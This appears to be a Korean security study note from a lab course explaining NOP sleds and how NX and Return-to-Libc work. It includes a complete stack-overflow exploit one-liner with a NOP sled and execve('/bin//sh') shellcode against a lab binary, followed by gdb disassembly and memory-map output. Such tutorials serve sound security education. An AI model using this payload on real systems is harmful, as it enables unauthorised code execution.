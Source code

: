 


# NOP Sled

- No OPeration의 약자로, 명령어 중의 하나
-  xchg eax, eax와 같이 프로그램의 실행에 영향을 주지 않는 명령어이기 때문에, 프로그램이 실행 중에 NOP 명령어를 만나면 다음 명령어로 넘어가는 것과 같은 효과
-  x86 아키텍처의 NOP 명령어 바이트코드는 0x90
- NOP Sled, NOP Slide : 주로 셸코드의 주소를 정확히 알아내기 힘들 경우 큰 메모리를 확보하여 셸코드 주소의 오차 범위를 크게 만들 때 사용
- NOP Sled의 어딘가의 주소를 알아내 달라진 환경에서 해당 주소로 실행 흐름을 바꾸는 경우 평균적으로 0x10000/2만큼의 주소 오차가 허용

```
./example1  `python -c 'print  "A"*40 + "\x7a\x0f\xff\xff" + "\x90"*100000 +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```

![image](/assets/img/dreamhack/nopsled.PNG)

# NX bit의 등장

- No-eXecute bit(NX bit) :메모리에 쓰기 권한과 실행 권한을 동시에 부여하지 않음
- Return To Libc(RTL)은 리턴 주소를 라이브러리 내에 존재하는 함수의 주소로 바꿔 NX bit를 우회하는 공격 기법
```
(gdb) disas main
Dump of assembler code for function main:
=> 0x56555599 <+0>:	push   %ebp
   0x5655559a <+1>:	mov    %esp,%ebp
   0x5655559c <+3>:	push   %ebx
   0x5655559d <+4>:	call   0x565555d1 <__x86.get_pc_thunk.ax>
   0x565555a2 <+9>:	add    $0x1a32,%eax
   0x565555a7 <+14>:	cmpl   $0x1,0x8(%ebp)
   0x565555ab <+18>:	jg     0x565555b6 <main+29>
   0x565555ad <+20>:	push   $0xffffffff
   0x565555af <+22>:	mov    %eax,%ebx
   0x565555b1 <+24>:	call   0x565553e0 <exit@plt>
   0x565555b6 <+29>:	mov    0xc(%ebp),%eax
   0x565555b9 <+32>:	add    $0x4,%eax
   0x565555bc <+35>:	mov    (%eax),%eax
   0x565555be <+37>:	push   %eax
   0x565555bf <+38>:	call   0x5655554d <vuln>
   0x565555c4 <+43>:	add    $0x4,%esp
   0x565555c7 <+46>:	mov    $0x0,%eax
   0x565555cc <+51>:	mov    -0x4(%ebp),%ebx
   0x565555cf <+54>:	leave  
   0x565555d0 <+55>:	ret    
End of assembler dump.
(gdb) info proc map
process 3449
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/ubuntu/dreamhack/example1
	0x56556000 0x56557000     0x1000        0x0 /home/ubuntu/dreamhack/example1
	0x56557000 0x56558000     0x1000     0x1000 /home/ubuntu/dreamhack/example1
```